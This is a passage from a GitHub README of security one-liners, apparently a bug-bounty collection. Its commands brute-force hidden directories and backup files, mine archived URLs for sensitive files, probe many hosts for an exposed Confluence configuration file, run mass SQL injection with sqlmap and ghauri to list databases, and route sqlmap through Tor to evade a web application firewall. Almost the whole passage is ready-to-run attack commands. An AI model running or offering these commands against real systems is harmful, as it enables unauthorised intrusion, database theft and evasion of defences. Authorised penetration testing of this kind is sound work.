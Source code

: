 [](https://github.com/0xPugal/One-Liners#hidden-dirs)

```
dirsearch -l urls.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt
```

```
ffuf -c -w urls.txt:URL -w wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```

## ffuf json to txt output

[](https://github.com/0xPugal/One-Liners#ffuf-json-to-txt-output)

```
cat output.json | jq | grep -o '"url": ".*"' | grep -o 'https://[^"]*'
```

**Search for Sensitive files from Wayback**

```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -color -E ".xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```

```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200
```

---

## SQLi:

[](https://github.com/0xPugal/One-Liners#sqli)

```
cat subs.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli.txt ; sqlmap -m sqli.txt --batch --random-agent --level 5 --risk 3 --dbs 
```

_**scan multiple hosts parallely**_

```
cat urls.txt | parallel -j 50 'ghauri -u '{}' --dbs --hostname --confirm --batch'
```

_**Bypass WAF using TOR**_

```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent
```

_**find which host is vuln in output folder of sqlmap/ghauri**_ `root@bb:~/.local/share/sqlmap/output#`
